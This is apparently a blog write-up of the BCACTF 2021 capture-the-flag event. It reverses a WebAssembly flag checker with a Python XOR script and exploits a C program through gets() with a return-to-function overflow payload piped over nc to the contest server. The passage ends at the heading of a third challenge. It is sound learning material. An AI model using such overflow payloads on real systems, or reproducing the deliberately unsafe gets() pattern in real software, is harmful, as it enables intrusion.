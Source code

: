 ```yaml
---
layout: page
title: BCACTF 2021 CTF Writeup
---
```

<hr/>

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img1.png)

I competed in <a href="https://ctftime.org/event/1265" target="_blank">Bergen County Academies' 2021 BCACTF 2.0</a> CTF event on my own (first time playing solo in a CTF). I ranked 117th out of 953 teams (841 scoring) and I managed to solve 27 challenges. Date and time : Fri, 11 June 2021, 08:00 SGT — Mon, 14 June 2021, 08:00 SGT.

I was pleased with my performance for the web challenges as since my first two CTFs (Whitehacks 2021 and CTF SG 2021), I have never solved a web challenge.

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img3.png)

I managed to solve 3/4ths of the binary exploitation challenges too :

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img4.png)

Below are the writeups for the challenges that I managed to solve :

<br/>

# Wasm Protected Site 2 (Web)

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img5.png)

When you go to the website that they provided, you would just see a textfield for entering the flag. If what you entered wasn't the flag, it would output incorrect flag and vice-versa. Nothing interesting here.

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img6.png)

Aftering looking around with my browser's developer tools, I found the heart of this website, a Wasm (<a href="https://en.wikipedia.org/wiki/WebAssembly
" target="_blank">Web Assembly</a>) file which contained some source code :

```wasm

(module
  (memory $memory (;0;) (export "memory") 1)
  (func $cmp (;0;) (param $v0 (;0;) i32) (param $v1 (;1;) i32) (result i32)
    (local $v2 (;2;) i32)
    loop $label0
      local.get $v2
      local.get $v0
      i32.add
      i32.load8_u
      local.get $v2
      local.get $v1
      i32.add
      i32.load8_u
      local.get $v2
      i32.const 9
      i32.mul
      i32.const 127
      i32.and
      i32.xor
      i32.ne
      local.get $v2
      i32.const 27
      i32.ne
      i32.and
      if
        i32.const 0
        return
      end
      local.get $v2
      i32.const 1
      i32.add
      local.tee $v2
      i32.const 1
      i32.sub
      local.get $v0
      i32.add
      i32.load8_u
      i32.eqz
      if
        i32.const 1
        return
      end
      br $label0
    end $label0
    i32.const 0
    return
  )
  (func $checkFlag (;1;) (export "checkFlag") (param $a (;0;) i32) (result i32)
    local.get $a
    i32.const 1000
    call $cmp
    return
  )
  (data (i32.const 1000) "bjsxPKMH|\227N\1bD\043b]PR\19e%\7f/;\17")
)

```

After a lot of Googling and trying to understand this code, this is what I came up with :

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img7.png)

<p>So at 0x04e, “i32.load8_u” loads a character from the encoded flag. Since the encoded flag is “bjsxPKMH|\x227N\x1bD\x043b]PR\x19e%\x7f/;\x17”, it loads the character “b” from this encoded flag the first time. The line “local.get $v2” loads the index of the loaded character so for “b” it would be 0, for “j” it would be 1 and so on (like index values in an array). This index is then multiplied by 9. That result is then put in a bitwise AND operation with 127. Then that result is XORed with the selected encoded character (so “b” for the first time, “j” for the second, “s” for the third and so on) and then the server checks the result with the corresponding correct flag character so “bactf{flag}” to see if the character matches. If it doesn't, it exits (lines 0x64 and 0x65) and if it does match, it continues this process character by character to see if the inputted flag matches. </p>

So to get the flag, you could reverse this process which is done using the following Python script :

```python

eflag = b'bjsxPKMH|\x227N\x1bD\x043b]PR\x19e%\x7f/;\x17'

flag = ""
c9 = 0
for ea in eflag:
    m = c9 & 127
    v = ea ^ m
    #print(ea, c9, m, v, chr(v))
    c9 += 9
    flag += str(chr(v))

print("Flag:",flag)

```

And after running this script, you get the flag :

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img8.png)

**Flag :** bcactf{w4sm-w1z4rDry-Xc0wZ}

<br/>

# Advanced Math Analysis (Binary Exploitation)

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img9.png)

The source code and executable was provided. Here is the source code :

```c

#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void cheat() {
    FILE *fp = fopen("flag.txt", "r");
    char flag[100];

    if (fp == NULL) {
        puts("My bad, I can't find the answers.");
        puts("Oh wait, that's a foodable offense!");
        puts("[If you are seeing this on the remote server, please contact admin].");
        exit(1);
    }

    fgets(flag, sizeof(flag), fp);
    puts(flag);
}

int main() {
    char response[50];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to the more advanced math class!");
    puts("Unlike the folks in regular analysis, you'll have to put in more effort.");
    puts("That's because this class has a strict anti-cheating defense.");
    puts("Ha, take that!");
    puts("We have to maintain the BCA reputation somehow, y'know.");
    printf("> ");
    gets(response);

    if (strcmp(response, "i pledge to not cheat")) {
        puts("I'm sorry, but you did not type out the honor pledge.");
        puts("This obviously means that you are a cheater.");
        puts("And we certainly cannot have that.");
        puts("Goodbye.");
        exit(1);
    }

    puts("Hey, I'm glad you decided to be honest and not cheat!");
    puts("Makes my life a whole lot easier when I can let my guard down.");
    puts("You still have to do tests and whatnot, but that's a you problem.");
}

```

And after running the standard chekcs on the executable, we can see that this challenge involves a buffer overflow (due to the vulnerability of `gets`) as no stack canaries were found and NX was enabled (so this challenge probably had nothing to do with shellcode execution) :

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img10.png)

A quick objdump of `main` shows that even though the buffer was initialized with 50 bytes, the buffer is actually allocated 64 bytes :

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img11.png)

Note that we also have the line `if (strcmp(response, "i pledge to not cheat")) {` which means that if the strings are equal, the program would not enter this if clause as equal strings in strcmp returns 0. Anything else would have returned a non zero value and hence entered this clause and exited (`exit(1)`). So we know that inside `main`, the buffer is 64 bytes, the next 8 bytes are the base pointer and the next 8 bytes are the return address of main. So if we overflow these 72 bytes and then add the return address of `cheat` which is where we want to go, `main` would return to `cheat` and then print out the flag.

This was the payload : `python2 -c 'print("i pledge to not cheat"+"\x00"*51+"\x16\x12\x40\x00\x00\x00\x00\x00")' | nc bin.bcactf.com 49156`

And after running it on their server, we get the flag :

![BCACTF 2021 Writeup](/assets/img/ctfImages/bcactf2021/img12.png)

**Flag :** bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}

<br/>

# Movie-Login-3 (Web)
